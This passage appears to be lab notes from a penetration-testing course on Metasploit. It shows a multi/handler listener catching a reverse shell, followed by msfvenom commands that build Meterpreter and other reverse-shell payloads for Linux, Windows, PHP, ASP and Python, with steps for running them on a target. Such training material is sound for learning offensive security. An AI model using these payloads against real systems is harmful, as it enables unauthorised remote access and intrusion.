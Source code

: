 Once everything is set, we will `run` the handler and wait for the incoming connection.

Waiting for the reverse shell

```shell-session
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.186.44:7777
```

When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

`exploit -j` command runs the handler in the background

## Other Payloads

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

### Linux Executable and Linkable Format (elf)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`\
The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

### Windows

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

### PHP

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

### ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

### Python

`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

\
All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.

#### example:

we can make an elf file and upload/download it to the target machine and run it, then catch the shell via meterpreter. then we can continue enumerating (post explotation) or ...
